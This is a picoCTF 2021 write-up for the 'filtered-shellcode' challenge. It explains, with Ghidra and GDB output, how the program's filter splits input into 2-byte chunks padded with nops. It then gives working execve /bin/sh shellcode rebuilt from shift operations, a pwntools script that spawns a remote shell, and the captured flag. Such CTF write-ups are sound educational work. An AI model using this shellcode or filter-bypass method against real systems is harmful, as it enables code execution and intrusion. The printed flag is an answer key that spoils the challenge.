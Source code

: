 ```yaml
---
layout: post
title: Filtered shellcode ? - picoCTF 2021 filtered-shellcode
tags: [CTF, pwn]
---
```

> A program that just runs the code you give it? That seems kinda boring... [fun](https://mercury.picoctf.net/static/0bfc0f68ad29f38974f990c78e45977e/fun) nc mercury.picoctf.net 40525
>
> Hint: Take a look at the calling convention and see how you might be able to setup all the registers

## Ghidra
The `main` function takes input and then calls `execute` function which will do the filtering and execute the filtered input.
```c
void execute(char *code,int len)

{
  uint zero;
  undefined4 __;
  undefined new_code [8];
  undefined *local_24;
  undefined *local_20;
  uint _;
  uint double_len;
  int code_idx_;
  uint i;
  int code_idx;
  int offset;
  
  __ = 0x8048502;
  if ((code != (char *)0x0) && (len != 0)) {
    double_len = len * 2;
    _ = double_len;
    offset = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = new_code + offset;
    code_idx_ = 0;
    for (i = 0; code_idx = code_idx_, i < double_len; i = i + 1) {
      zero = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + zero & 3) - zero) < 2) {
        code_idx_ = code_idx_ + 1;
        new_code[i + offset] = code[code_idx];
      }
      else {
        new_code[i + offset] = 0x90;
      }
    }
    new_code[double_len + offset] = 0xc3;
    local_24 = new_code + offset;
    *(undefined4 *)(new_code + offset + -4) = 0x80485cb;
    (*(code *)(new_code + offset))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
Some variables are renamed for readability. Our input is divided into 2-byte chunks separated by 2 `nop`s. Actually observing this behavior on GDB seems to be easier.
```
Before:
gef➤  x/8x $eax
0xffffc713:     0x41414141      0x42424242      0x43434343      0x44444444
0xffffc723:     0x000009f7      0x00000000      0x00000400      0xffd5e800

After:
gef➤  x/8x $eax
0xffffc6a0:     0x90904141      0x90904141      0x90904242      0x90904242
0xffffc6b0:     0x90904343      0x90904343      0x90904444      0x90904444
```
So only instructions with opcode up to 2 bytes could be used.

## Attack
Normally a shellcode calling `/bin/sh` via `execve` looks like
```
; push "//bin/sh" onto stack
xor eax, eax
push eax
push `n/sh`
push `//bi`

; prepare parameters for execve
mov ebx, esp
xor ecx, ecx
xor edx, edx

; syscall
mov al, 0x0b
int 0x80
```
But apparently those `push` instructions would break because of the `nop` separator. The solution is to use shift operations and write each character one by one. The following is my solution:
```python
from pwn import *

# shellcode = b"\x31\xC0\x31\xDB\x31\xC9\x31\xD2\xB7\x01\x51\x90\xB0\x68\xF7\xE3\xB0\x73\xF7\xE3\xB0\x2F\xF7\xE3\xB0\x6E\x50\x90\xB0\x69\xF7\xE3\xB0\x62\xF7\xE3\xB0\x2F\xF7\xE3\xB0\x2F\x50\x90\x31\xC0\x89\xE3\x31\xC9\x31\xD2\xB0\x0B\xCD\x80"

shellcode = """
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* prepare shift left by 2 bytes */
mov bh, 1

/* string terminator */
push ecx
nop /* padding */

/* n/sh [0x6e, 0x2f, 0x73, 0x68] */
mov al, 0x68
mul ebx
mov al, 0x73
mul ebx
mov al, 0x2f
mul ebx
mov al, 0x6e
push eax
nop /* padding */

/* //bin [0x2f, 0x2f, 0x62, 0x69] */
mov al, 0x69
mul ebx
mov al, 0x62
mul ebx
mov al, 0x2f
mul ebx
mov al, 0x2f
push eax
nop /* padding */

/* prepare syscall */
xor eax, eax
mov al, 0x0b
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
"""

p = remote("mercury.picoctf.net", 40525)
p.recvuntil(b"run:")
p.sendline(asm(shellcode))
p.interactive()
```
I use `mul 0x100` to shift left by 2 bytes at a time. Also there are `nop`s after `push`s for padding (`push` only takes 1 byte).
```
❯ python3 ./solve.py
[+] Opening connection to mercury.picoctf.net on port 40525: Done
[*] Switching to interactive mode

$ ls
flag.txt
fun
fun.c
xinet_startup.sh
$ cat flag.txt
picoCTF{th4t_w4s_fun_5d991c7a5107a414}
```

## Reference
- [https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md](https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md)
- [Chromium OS Docs - Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)